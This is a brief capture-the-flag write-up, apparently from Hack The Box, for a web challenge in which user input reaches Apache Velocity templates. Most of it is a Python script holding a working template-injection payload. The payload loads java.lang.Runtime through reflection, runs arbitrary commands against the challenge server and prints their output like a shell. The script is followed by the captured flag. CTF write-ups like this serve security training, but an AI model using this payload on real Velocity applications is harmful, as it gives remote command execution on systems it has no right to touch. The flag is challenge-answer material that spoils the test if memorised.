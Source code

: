 ```yaml
---
ai_date: '2025-04-27 05:16:36'
ai_summary: Exploited unfiltered user input in Velocity template execution, leading
  to code execution; payload bypassed filtering with class loading and output capture.
ai_tags:
- xss
- cmd-exec
- code-exec
created: 2024-07-16T23:56
points: 925
solves: 339
updated: 2024-08-04T19:29
---
```


## Analysis

```java
org.apache.velocity.Template t = new org.apache.velocity.Template();
```

Apparently the server passes our input into the velocity template directly.

However a lot of the online payloads doesn't work.

This is the final payload.

```python
import requests
import re
while True:
    payload = f"""
#set($x='')
#set($rt=$x.class.forName('java.lang.Runtime'))
#set($chr=$x.class.forName('java.lang.Character'))
#set($str=$x.class.forName('java.lang.String'))
#set($ex=$rt.getRuntime().exec('{input("$ ")}'))
$ex.waitFor()
#set($out=$ex.getInputStream().readAllBytes())
#foreach($i in $out)$str.valueOf($chr.toChars($i))#end
"""
    print(re.search('<h2 class="fire">([\s\S]+)</h2>', requests.post("http://94.237.51.8:40899/", data={"text": payload}).text).group(1))

# HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!_0e15f3d341a7529fb80ce21794b76383}
```